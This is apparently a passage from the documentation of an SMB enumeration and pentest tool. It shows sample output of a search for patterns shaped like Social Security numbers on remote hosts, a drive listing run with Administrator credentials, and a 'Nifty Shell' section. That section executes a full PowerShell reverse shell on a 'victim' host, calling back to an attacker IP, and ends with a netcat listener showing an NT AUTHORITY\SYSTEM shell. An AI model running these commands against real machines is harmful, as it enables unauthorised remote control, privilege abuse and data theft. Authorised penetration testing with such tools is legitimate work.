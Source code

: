 ```
C:\Users\terdf\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.IE5\JY5MGKVO\salesmaps[1].htm
C:\Users\terdf\OldFiles\Cache_2013522\Content.IE5\JY5MGKVO\salesmaps[1].htm

Host: 192.168.0.99         Pattern: [1-9][0-9][0-9]-[0-9][0-9]-[0-9][0-9][0-9][0-9]
C:\Users\biffh\AppData\Local\Microsoft\Internet Explorer\DOMStore\L7W17OPZ\static.olark[1].xml
C:\Users\biffh\AppData\Local\Temp\Temporary Internet Files\Content.IE5\MIY2POGJ\validation[2].js
C:\Users\biffh\AppData\Local\Temp\Temporary Internet Files\Content.IE5\NV1MNBWA\Docs[1].htm
C:\Users\biffh\AppData\Local\Temp\Temporary Internet Files\Content.IE5\NV1MNBWA\Salesmaps[1].htm
```

## Drive Listing:
This feature was added to compliment the file content searching feature

```
$ python smbmap.py -H 192.168.1.24 -u Administrator -p 'R33nisP!nckle' -L
[!] Missing domain...defaulting to WORKGROUP
[+] Finding open SMB ports....
[+] User SMB session established...
[+] IP: 192.168.1.24:445 Name: unkown
[+] Host 192.168.1.24 Local Drives: C:\ D:\
[+] Host 192.168.1.24 Net Drive(s):
    E:      \\vboxsrv\Public      VirtualBox Shared Folders
```

## Nifty Shell:
Run Powershell Script on Victim SMB host (change the IP in the code to your IP addres, i.e where the shell connects back to)
```
$ python smbmap.py -u jsmith -p 'R33nisP!nckle' -d ABC -H 192.168.2.50 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.153""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"'
[+] Finding open SMB ports....
[+] User SMB session established...
[+] IP: 192.168.2.50:445        Name: unkown
[!] Error encountered, sharing violation, unable to retrieve output
```

## Attackers Netcat Listener:

```
$ nc -l 4445
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
 nt authority\system
```
